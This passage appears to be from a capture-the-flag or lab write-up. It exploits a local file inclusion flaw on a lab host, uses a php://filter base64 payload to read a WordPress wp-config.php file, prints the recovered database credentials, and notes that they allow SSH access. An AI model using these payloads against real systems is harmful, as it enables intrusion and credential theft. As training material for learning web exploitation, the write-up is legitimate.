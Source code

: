 We find a url http://172.16.1.10/nav.php?page=about.html , where we can get LFI

Digging in LFI we found the website directory (http://172.16.1.10/nav.php?page=/var/www/html/index.html). As we know by SMB notes that there is a worpress old installation we try to retrieve wordpress files as `page=/var/www/html/wordpress/wp-config.php` but the php is interpreted so we have to encode the content and we retrieve its content (`page=php://filter/read=convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php`)

```text
define( 'DB_NAME' 'wordpress' );
define( 'DB_USER', 'margaret' );
define( 'DB_PASSWORD', 'Welcome1!2@3#' );
define( 'DB_HOST', 'localhost' );
```

With margaret credentials we can SSH
